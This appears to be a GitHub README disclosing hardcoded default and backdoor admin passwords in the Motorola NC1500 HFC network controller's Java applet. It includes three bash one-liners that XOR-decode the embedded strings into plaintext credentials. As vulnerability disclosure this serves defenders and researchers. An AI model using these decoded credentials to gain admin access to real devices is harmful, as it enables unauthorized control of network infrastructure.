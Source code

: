 # nc1500
Motorola NC1500 Backdoor Password

![alt text](https://github.com/billchaison/nc1500/raw/main/mot.png)

The Motorola NC1500 Hybrid Fiber Coax (HFC) Network Controller has a default and backdoor password present in the `nc1500.jar` Java applet that is served from the device's web page.  The credentials are present in software version 1.9.4.

The web page on the device presents a user with this login page.  If you enter an incorrect password you gain read-only privileges.  Entering one of the correct passwords grants admin privileges.

![alt text](https://github.com/billchaison/nc1500/raw/main/mo1.png)

The source HTML of the device's landing page includes a remark, which is a reference to the backdoor password.

![alt text](https://github.com/billchaison/nc1500/raw/main/mo4.png)

The backdoor and default passwords appear as XOR encoded strings in the `NC1500Applet.class` file.  The decoding function also appears in the same file, which transforms each character to plaintext using 0x40.

![alt text](https://github.com/billchaison/nc1500/raw/main/mo2.png)<br />
![alt text](https://github.com/billchaison/nc1500/raw/main/mo3.png)

The following bash one-liners produce the plaintext passwords.

```bash
a='%33%.#%```'; b=($(echo -n $a | xxd -p | fold -w 2)); c=""; for d in "${!b[@]}"; do e=$(printf "%02x" $(("0x${b[$d]}"^0x40))); c="$c$e"; done; echo $c | xxd -r -p; echo
```

```bash
a='-/4/2/,!``'; b=($(echo -n $a | xxd -p | fold -w 2)); c=""; for d in "${!b[@]}"; do e=$(printf "%02x" $(("0x${b[$d]}"^0x40))); c="$c$e"; done; echo $c | xxd -r -p; echo
```

```bash
a='$%6%,/0```'; b=($(echo -n $a | xxd -p | fold -w 2)); c=""; for d in "${!b[@]}"; do e=$(printf "%02x" $(("0x${b[$d]}"^0x40))); c="$c$e"; done; echo $c | xxd -r -p; echo
```
